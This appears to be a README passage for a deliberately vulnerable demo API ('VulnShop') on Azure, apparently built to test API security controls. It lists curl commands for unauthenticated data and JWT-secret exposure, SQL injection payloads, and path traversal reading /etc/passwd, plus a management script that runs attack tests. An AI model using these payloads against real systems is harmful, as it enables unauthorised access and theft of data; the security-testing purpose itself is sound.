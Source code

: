 ## Testing the API

### Discovering Endpoints
```bash
curl http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/discovery
```

### Accessing Public Data
```bash
# Get all users without authentication
curl http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/public/users

# Get system information
curl http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/public/system-info

# Get configuration (including JWT secret)
curl http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/public/config
```

### SQL Injection Examples
```bash
# User search with SQL injection
curl "http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/public/user-search?username=admin' OR '1'='1"

# Product search with SQL injection
curl "http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/products/search?q=' OR 1=1--"
```

### Path Traversal
```bash
# Read sensitive files (example for Linux)
curl "http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/public/files?path=../../../../../../../../etc/passwd"

# Read sensitive files (example for Windows)
curl "http://vulnshop-dev-t7up5q.eastus.cloudapp.azure.com/api/public/files?path=C:\Windows\System32\drivers\etc\hosts"
```

## Management and Operations

All operational tasks such as deployment, configuration, and testing have been unified into a single management script: `manage.sh`.

### Usage
```bash
./manage.sh {command}
```

**Available Commands**:
- `deploy-all`: Deploy both backend and frontend.
- `deploy-backend`: Deploy only the backend application.
- `deploy-frontend`: Deploy only the frontend application.
- `configure-apim`: Configure the Azure API Management instance.
- `run-tests`: Run the comprehensive, non-destructive attack tests.
- `check-traffic`: Check traffic on the APIM instance.
